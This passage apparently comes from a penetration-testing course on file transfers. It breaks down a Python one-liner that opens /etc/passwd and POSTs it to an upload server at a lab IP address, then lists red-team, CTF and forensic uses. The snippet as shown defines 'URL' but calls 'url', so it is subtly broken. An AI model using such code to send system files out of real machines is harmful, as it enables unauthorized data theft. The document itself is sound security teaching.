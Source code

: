 Let's divide this one-liner into multiple lines to understand each piece better.

Code: python

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

We can do the same with any other programming language. A good practice is picking one and trying to build an upload program.

___

## Section Recap

Understanding how we can use code to download and upload files may help us achieve our goals during a red teaming exercise, a penetration test, a CTF competition, an incident response exercise, a forensic investigation, or even in our day-to-day sysadmin work.
